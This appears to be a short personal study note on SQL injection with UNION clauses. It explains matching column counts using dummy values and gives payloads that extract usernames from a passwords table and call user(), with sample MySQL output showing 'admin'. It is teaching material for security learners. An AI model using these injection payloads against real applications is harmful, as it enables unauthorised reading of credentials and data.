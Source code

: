 1,2,3,#SQL_Injection 

---

## Union Clause

- The two queries joined by **Union** must have the same number of columns. If they don't we can populate the columns with dummy values as follows:
```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```
which would return:
```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```

**Note**: It joins the rows of both queries => both the queries must output same number of columns




## Union Injection

- We can also execute a command(i.e. `user()`) using **UNION** as follows:
```bash
dummy' UNION SELECT 1, user(), 3, 4-- -	
```



